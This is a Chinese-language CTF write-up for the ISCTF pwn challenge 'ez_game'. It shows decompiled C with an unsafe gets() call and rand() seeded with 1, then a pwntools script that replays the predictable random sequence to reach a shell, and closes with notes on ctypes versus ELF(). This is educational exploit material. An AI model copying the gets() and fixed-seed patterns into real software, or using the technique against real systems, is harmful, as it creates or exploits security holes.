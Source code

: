# ISCTF pwn方向“ez_game"

by Maple

本来以为是直接栈溢出跳转后门函数，结果数据有点大，溢出不到，最后还是直接伪随机数解决

先看源码

``` c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-1A4h] BYREF
  char v5[400]; // [rsp+10h] [rbp-1A0h] BYREF
  unsigned int seed; // [rsp+1A0h] [rbp-10h]
  int v7; // [rsp+1A8h] [rbp-8h]
  int i; // [rsp+1ACh] [rbp-4h]

  init(argc, argv, envp);
  seed = 1;
  puts("Welcome to ISCTF's pwn mini-game.");
  puts("This procedure is only 15 seconds");
  signal(14, handle_sigalrm);
  alarm(0xFu);
  printf("Enter your username: ");
  gets(v5);
  srand(seed);
  for ( i = 0; i <= 20000; ++i )
  {
    v7 = rand() % 7 + 1;
    printf("Round %d\n", (unsigned int)(i + 1));
    printf("Please enter the number you want to guess: ");
    __isoc99_scanf("%d", &v4);
    if ( v7 != v4 )
    {
      puts("Wrong, goodbye");
      exit(1);
    }
    puts("Congratulations, you win!");
  }
  getshell();
  return 0;
}
```

seed = 1，2w次循环，全猜对了就可以getshell，那就跟着来就行

```python
from pwn import *
from ctypes import *

p = process('./ez_game')
elf = ELF('./ez_game')
libc = cdll.LoadLibrary('./libc.so.6')

libc.srand(1);	# 设置随机数种子为1，源码是这样写的
result = [0]*20001	# 创建一个20001长度的列表，初始化为0
for i in range(20001):
    result[i] = str(libc.rand()%7+1)

payload = b'a'
p.sendlineafter(b'username: ',payload)

for i in range(20001):
    p.sendline(result[i])

p.interactive()
```

## ctypes

`from ctypes import *`引入了`ctypes`库，这个库允许Python调用系统中的C库函数。它可以访问和操作C数据结构、内存和地址

**`libc = cdll.LoadLibrary("./libc.so.6")`来加载本地的动态链接库文件，以此调用`libc`中提供的各种函数**

注意，它和`libc = ELF('./libc.so.6')`完全是两件事。

- `cdll.LoadLibrary()`是创建了一个叫做`libc`的，可以访问`libc.so.6`库的对象

- `ELF()`是创建了一个包含该二进制文件元数据的元素（包括符号表、地址偏移、函数符号等）的对象

| 方式                 | 功能                                      | 使用场景                                                     |
| -------------------- | ----------------------------------------- | ------------------------------------------------------------ |
| `cdll.LoadLibrary()` | 加载动态链接库，允许调用其中的函数        | 直接调用 C 函数，进行底层操作。常用于与 C 库进行交互（如调用 `rand()`、`srand()` 等函数）。 |
| `ELF()`              | 解析 ELF 格式的文件，提供符号、地址等信息 | 进行二进制分析、漏洞利用等，查找函数的地址、进行地址计算或符号解析。 |